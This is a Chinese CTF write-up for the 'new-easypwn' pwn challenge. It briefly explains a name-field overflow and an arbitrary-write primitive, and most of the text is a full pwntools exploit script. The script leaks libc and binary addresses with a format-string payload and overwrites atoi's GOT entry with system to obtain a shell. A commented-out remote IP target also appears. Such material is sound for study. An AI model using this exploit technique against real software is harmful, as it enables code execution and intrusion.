






# new-easypwn（攻防世界）

这里我们查看保护



查看ida



通过name的位置溢出修改到des info的位置的指针








这里我们可以明显看出edit位置有一个任意地址写因此我们可以编写代码



在这里我们可以直接使用atoi函数改成system就可以了

因此我们的exp

```python
from pwn import *


context.log_level='debug'
io = process("/home/fofa/hello/hello")
# io = remote("223.112.5.141",56092)
elf = ELF("/home/fofa/hello/hello")
libc=ELF("/home/fofa/hello/libc-2.23.so")
def addr_chunk(phone,name,size,info):
    io.sendlineafter("your choice>>",'1')
    io.sendlineafter("phone number:",phone)
    io.sendlineafter("name:",name)
    io.sendlineafter("input des size:",str(size))
    io.sendlineafter("des info:",str(info))

def delete_chunk(idx):
    io.sendlineafter("your choice>>",'2')
    io.sendlineafter("input index:",idx)

def edit_chunk(index,phone,name,info):
    io.sendlineafter('choice>>','4')
    io.sendlineafter('index:',str(index))
    io.sendlineafter('number:',phone)
    io.sendlineafter('name:',name)
    io.sendlineafter('info:',info)
def show_chunk(idx):
    io.sendlineafter("your choice>>", '3')
    io.sendlineafter("input index:", str(idx))

addr_chunk('%13$p%9$p','aaaaa',15,'123')
show_chunk(0)

io.recvuntil(b"0x")
libc.address = int(io.recv(12),16)-0x20840
io.recvuntil(b"0x")
elf_base = int(io.recv(12),16)-0x1274
info("libc.address:"+hex(libc.address))
info("elf_base:"+hex(elf_base))
system_addr = libc.sym['system']
atoi_got = elf_base+elf.got['atoi']
info("system_addr"+hex(system_addr))
info("atoi_got"+hex(atoi_got))
edit_chunk(0,'c'*11,b'd'*13+p64(atoi_got),p64(system_addr))
# io.sendlineafter('>>','/bin/sh')


gdb.attach(io)

io.interactive()
```

